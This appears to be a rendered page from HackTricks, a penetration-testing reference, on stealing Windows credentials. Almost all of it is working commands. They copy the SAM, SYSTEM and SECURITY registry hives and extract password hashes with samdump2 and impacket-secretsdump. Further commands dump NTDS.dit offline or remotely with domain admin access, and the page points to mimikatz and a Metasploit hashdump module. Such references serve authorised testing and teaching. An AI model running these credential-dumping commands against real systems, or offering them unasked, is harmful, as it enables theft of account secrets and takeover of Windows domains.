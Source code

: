 	<img src="./assets/logo_hacktricks.png" alt="HackTricks Logo" width="16" height="auto">
	<span style="color: red; font-size: 110%;"><strong>HackTricks</strong></span>
</div>

[Stealing Windows Credentials](https://book.hacktricks.xyz/windows-hardening/stealing-credentials)

[**#From Registry**]

The easiest way to steal those files is to get a copy from the registry:
```
reg save HKLM\sam sam
reg save HKLM\system system
reg save HKLM\security security
```

**Download** those files to your Kali machine and **extract the hashes** using:
```sh
samdump2 SYSTEM SAM
impacket-secretsdump -sam sam -security security -system system LOCAL
```

[**#Extracting hashes from NTDS.dit**]

Once you have **obtained** the files **NTDS.dit** and **SYSTEM** you can use tools like _secretsdump.py_ to **extract the hashes**:
```sh
secretsdump.py LOCAL -ntds ntds.dit -system SYSTEM -outputfile credentials.txt
```

You can also **extract them automatically** using a valid domain admin user:
```sh
secretsdump.py -just-dc-ntlm <DOMAIN>/<USER>@<DOMAIN_CONTROLLER>
```

For **big NTDS.dit files** it's recommend to extract it using [gosecretsdump](https://github.com/c-sto/gosecretsdump).

Finally, you can also use the **metasploit module**: _post/windows/gather/credentials/domain_hashdump_ or **mimikatz** `lsadump::lsa /inject`

![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)
